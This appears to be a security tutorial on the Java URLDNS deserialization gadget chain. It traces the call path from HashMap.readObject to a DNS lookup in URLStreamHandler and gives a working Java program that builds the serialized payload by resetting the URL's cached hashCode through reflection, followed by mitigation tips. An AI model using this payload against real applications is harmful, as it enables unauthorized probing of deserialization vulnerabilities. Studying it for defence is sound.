

`URLDNS` chain is an attack method based on Java deserialization vulnerabilities, commonly used to achieve DNS exfiltration and other attack objectives. In the `URLDNS` chain, attackers exploit the automatic triggering of DNS queries during deserialization to leak information or initiate further attacks.

The entry class for the `URLDNS` chain is `HashMap`, and the execution point is the `hashCode()` method of `URLStreamHandler`.


## 1. Gadget Chain Analysis

The `HashMap` and `URL` classes both implement the `Serializable` interface.

During the deserialization of `HashMap`, the `readObject()` method is called to reconstruct its internal data structure:

```java
private void readObject(ObjectInputStream s) throws IOException, ClassNotFoundException {
    
    ObjectInputStream.GetField fields = s.readFields();
    
    // Read loadFactor (ignore threshold)
    float lf = fields.get("loadFactor", 0.75f);
    if (lf <= 0 || Float.isNaN(lf))
        throw new InvalidObjectException("Illegal load factor: " + lf);
    
    lf = Math.min(Math.max(0.25f, lf), 4.0f);
    HashMap.UnsafeHolder.putLoadFactor(this, lf);
    
    reinitialize();
    
    s.readInt();                // Read and ignore number of buckets
    int mappings = s.readInt(); // Read number of mappings (size)
    if (mappings < 0) {
        throw new InvalidObjectException("Illegal mappings count: " + mappings);
    } else if (mappings == 0) {
        // use defaults
    } else if (mappings > 0) {
        float fc = (float)mappings / lf + 1.0f;
        int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ? DEFAULT_INITIAL_CAPACITY : (fc >= MAXIMUM_CAPACITY) ? MAXIMUM_CAPACITY : tableSizeFor((int)fc));
        float ft = (float)cap * lf;
        threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ? (int)ft : Integer.MAX_VALUE);
        
        // Check Map.Entry[].class since it's the nearest public type to
        // what we're actually creating.
        SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
        @SuppressWarnings({"rawtypes","unchecked"})
        Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
        table = tab;
        
        // Read the keys and values, and put the mappings in the HashMap
        for (int i = 0; i < mappings; i++) {
            @SuppressWarnings("unchecked")
            K key = (K) s.readObject();
            @SuppressWarnings("unchecked")
            V value = (V) s.readObject();
            putVal(hash(key), key, value, false, false);
        }
    }
}
```
{: .nolineno}

The `readObject()` method calls the `putVal()` method of `HashMap`. Within `putVal()`, the `hash()` method is invoked, which uses the `key` parameter, representing the keys in the `HashMap`. The `hash()` method calls `key.hashCode()`:

```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```
{: .nolineno}

If the `key` is a `URL` object, deserialization will trigger the `hashCode()` method of the `URL` object:

```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;
    
    hashCode = handler.hashCode(this);
    return hashCode;
}
```
{: .nolineno}

The `hashCode()` method of the `URL` object invokes `handler.hashCode(this)`, where `handler` is a `URLStreamHandler` object. This ultimately calls the `hashCode()` method of the `URLStreamHandler`:

```java
protected int hashCode(URL u) {
    int h = 0;
    
    // Generate the protocol part.
    String protocol = u.getProtocol();
    if (protocol != null)
        h += protocol.hashCode();
    
    // Generate the host part.
    InetAddress addr = getHostAddress(u);
    if (addr != null) {
        h += addr.hashCode();
    } else {
        String host = u.getHost();
        if (host != null)
            h += host.toLowerCase().hashCode();
    }
    
    // Generate the file part.
    String file = u.getFile();
    if (file != null)
        h += file.hashCode();
    
    // Generate the port part.
    if (u.getPort() == -1)
        h += getDefaultPort();
    else
        h += u.getPort();
    
    // Generate the ref part.
    String ref = u.getRef();
    if (ref != null)
        h += ref.hashCode();
    
    return h;
}
```
{: .nolineno}

In the `hashCode()` method of `URLStreamHandler`, a call to `getHostAddress(u)` is made, which may result in a DNS request.



**Summary**: If a serialized `HashMap` object contains a `URL` object as a key, deserializing the `HashMap` object will trigger the `hashCode()` method of the `URL` object, which can lead to DNS requests.


## 2. URLDNS CHAIN Implementation

**`hashCode` Caching Mechanism in `URL`**:

- The `URL` class has a private field `hashCode`, initially set to `-1`, indicating that the `hashCode` has not been calculated.
- When the `hashCode()` method is called, it resolves the hostname via DNS and stores the computed value in the `hashCode` field to prevent recalculating it in subsequent calls.
- In `HashMap`, the `put()` method calls the key's `hashCode()`. Therefore, when a `URL` object is inserted into a `HashMap`, `URL.hashCode()` is called, causing the `hashCode` to be calculated, and a DNS request is triggered.

**Behavior During Deserialization**: 

- Since the `hashCode` of the `URL` is cached, during deserialization, `URL.hashCode()` will not trigger a DNS request again, as the `hashCode` is no longer `-1`.


**Solution Steps**: 

1. **Modify `hashCode` Before Calling `HashMap.put()`**: Use reflection to change the `hashCode` field of the `URL` object to a non-`-1` value, ensuring that the DNS request does not occur when `put()` is called.
2. **Reset `hashCode` After Calling `HashMap.put()`**: After inserting the `URL` into the `HashMap`, use reflection again to reset the `hashCode` field to `-1`, ensuring that the `hashCode` field appears as uncomputed when serialized.

By doing this, during deserialization, `URL.hashCode()` will be called again and will trigger a new DNS request.


**Example Code**: 

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class UrlDnsChainMain {
    public static void main(String[] args) throws Exception {
        // Create a URL object
        URL url = new URL("http://example.com");

        // Create a HashMap and use the URL as the key
        HashMap<URL, Integer> hashMap = new HashMap<URL, Integer>();

        // Use reflection to modify the URL object's hashCode
        modifyUrlHashCode(url, 12345);  // Set to a non -1 value

        // Insert into HashMap, preventing DNS request during put()
        hashMap.put(url, 123);

        // Reset the URL object's hashCode to -1 after put()
        modifyUrlHashCode(url, -1);

        // Serialize the HashMap
        try (ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("urlDnsChain.ser"))) {
            oos.writeObject(hashMap);
        }

        // Deserialize the HashMap
        try (ObjectInputStream ois = new ObjectInputStream(new FileInputStream("urlDnsChain.ser"))) {
            ois.readObject();
            System.out.println("Deserialization completed");
        }
    }

    // Modify the hashCode field of a URL object using reflection
    public static void modifyUrlHashCode(URL url, int newHashCode) throws Exception {
        Field hashCodeField = URL.class.getDeclaredField("hashCode");
        hashCodeField.setAccessible(true);
        hashCodeField.setInt(url, newHashCode);
    }
}
```
{: .nolineno}


**Explanation**:

- **Reflection** is used to modify the `hashCode` field of the `URL` object before inserting it into the `HashMap`, ensuring no DNS request is triggered when `put()` is called.
- After insertion, the `hashCode` is reset to `-1` to preserve the original state before serialization.
- This technique exploits the `URL` class's DNS-triggering behavior during deserialization, allowing us to make use of the `URLDNS` gadget chain effectively.


## 3. Avoiding the URLDNS Chain Attack

- **Avoid using `URL` as the key in `HashMap`**: Try to avoid using `URL` objects as keys in a `HashMap`. If you must use `URL`, you can use its string representation or other alternatives that do not trigger network requests.
- **Customize `HashMap` deserialization logic**: Override the `readObject()` method of `HashMap` to avoid calling the `hashCode()` method of `URL`. For example, you can delay the calculation of `hashCode()` or skip certain logic that could trigger network requests.
- **Use `transient` or `writeReplace()`**: Mark objects that can trigger DNS requests (like `URL`) as `transient`, or use `writeReplace()` and `readResolve()` methods to customize serialization and deserialization behavior to ensure no network operations are triggered during deserialization.
- **Safe deserialization techniques**: Use secure deserialization frameworks or methods (such as whitelisting deserialization) to avoid potentially unsafe deserialization operations and prevent malicious actions from untrusted data.